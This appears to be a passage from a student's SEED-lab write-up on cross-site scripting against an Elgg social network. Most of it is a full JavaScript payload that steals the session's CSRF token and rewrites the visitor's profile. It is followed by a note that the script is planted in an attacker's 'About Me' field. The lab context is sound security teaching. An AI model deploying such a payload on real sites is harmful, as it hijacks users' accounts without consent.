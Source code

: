 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
<script type="text/javascript">
    window.onload = function() {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var name = elgg.session.user.name;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/profile/edit";

        // If the user is Samy, then the attack is not performed
        if (name == "Samy") return;

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('name', name);
        formData.append('description', '1905001');
        formData.append('accesslevel[description]', '1');
        formData.append('briefdescription', 'I am Samy, the worm. Catch me if you can.');
        formData.append('accesslevel[briefdescription]', '1');
        formData.append('location', 'Pyongyang');
        formData.append('accesslevel[location]', '1');
        formData.append('interests', 'Hacking, XSS, Worms, CSRF, and so on.');
        formData.append('accesslevel[interests]', '1');
        formData.append('skills', 'I can write a worm in 5 minutes. Can you?');
        formData.append('accesslevel[skills]', '1');
        formData.append('contactemail', 'catchmeifyoucan@yahoo.com');
        formData.append('accesslevel[contactemail]', '1');
        formData.append('phone', '9557134');
        formData.append('accesslevel[phone]', '1');
        formData.append('mobile', '01234567890');
        formData.append('accesslevel[mobile]', '1');
        formData.append('website', 'www.samy-worm.com');
        formData.append('accesslevel[website]', '1');
        formData.append('twitter', 'elonmusk');
        formData.append('accesslevel[twitter]', '1');
        formData.append('guid', guid);

        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{verbatim}

In any of the cases, we place the malicious script in Samy's ``About Me'' section like the previous task.

Alice's profile is once again infiltred with the following consequences:
\end{document}
